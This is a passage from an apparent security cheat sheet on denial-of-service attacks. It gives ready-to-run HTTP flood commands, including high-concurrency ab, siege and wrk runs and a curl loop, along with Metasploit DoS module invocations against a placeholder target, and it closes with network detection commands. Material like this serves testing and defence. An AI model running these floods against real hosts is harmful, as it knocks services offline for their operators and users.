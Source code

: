 ```python
# slowloris.attack()
```

#### HTTP Flood Tools
```bash
# Apache Bench (ab) - Legitimate tool that can be misused
ab -n 100000 -c 1000 http://target-ip/

# Siege
siege -c 1000 -t 60s http://target-ip/

# wrk
wrk -t12 -c400 -d30s http://target-ip/

# Custom HTTP flood with curl
for i in {1..10000}; do curl http://target-ip/ & done
```

### Metasploit DoS Modules
```bash
# Metasploit DoS auxiliaries
use auxiliary/dos/tcp/synflood
set RHOST target-ip
set RPORT 80
run

use auxiliary/dos/http/slowloris
set RHOST target-ip
set RPORT 80
run

use auxiliary/dos/ssl/dtls_fragment_overflow
set RHOST target-ip
run

use auxiliary/dos/windows/smb/ms10_006_negotiate_response_loop
set RHOST target-ip
run
```

---

## Detection and Monitoring

### Network-Based Detection

#### Traffic Analysis Indicators
```bash
# Monitor network traffic patterns
# Unusual traffic volume
netstat -i  # Interface statistics

# Connection state monitoring
netstat -an | grep SYN_RECV | wc -l  # Count half-open connections

# Bandwidth monitoring
iftop -i eth0  # Real-time bandwidth usage
vnstat -l -i eth0  # Live bandwidth monitoring

# Packet capture for analysis
tcpdump -i eth0 -n host target-ip
wireshark  # GUI-based packet analysis
```

